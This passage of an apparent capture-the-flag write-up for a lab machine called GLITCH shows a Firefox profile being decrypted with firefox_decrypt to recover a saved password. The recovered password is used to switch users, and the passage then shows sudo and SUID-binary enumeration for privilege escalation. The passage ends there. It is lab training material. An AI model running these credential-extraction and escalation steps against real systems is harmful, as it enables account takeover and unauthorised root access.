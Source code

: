 ~~~
-rw-rw-r--   1 user user    22 Jan  4 15:29 user.txt
~~~

Compress the folder and download the archive locally. Download [firefox_decrypt](https://github.com/unode/firefox_decrypt) and reveal `v0id`'s password:

~~~
kali@kali:/data/src/firefox_decrypt$ python3 firefox_decrypt.py /data/GLITCH/files/.firefox/
Select the Mozilla profile you wish to decrypt
1 -> hknqkrn7.default
2 -> b5w4643p.default-release
2

Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
~~~

We can now switch to `v0id`:

~~~
user@ubuntu:/var/web$ su v0id
su v0id
Password: love_the_void

v0id@ubuntu:/var/web$ id
id
uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
~~~

## Privilege escalation

Unfortunately, the `v0id` user is not allowed to run any program with `sudo`.

~~~
v0id@ubuntu:/var/web$ sudo -l
sudo -l
[sudo] password for v0id: love_the_void

Sorry, user v0id may not run sudo on ubuntu.
~~~

Searching for files owned by root with the SUID bit set reveals another interesting program though (`doas` is working like `sudo`):

~~~
v0id@ubuntu:~$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newuidmap
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/newgrp
~~~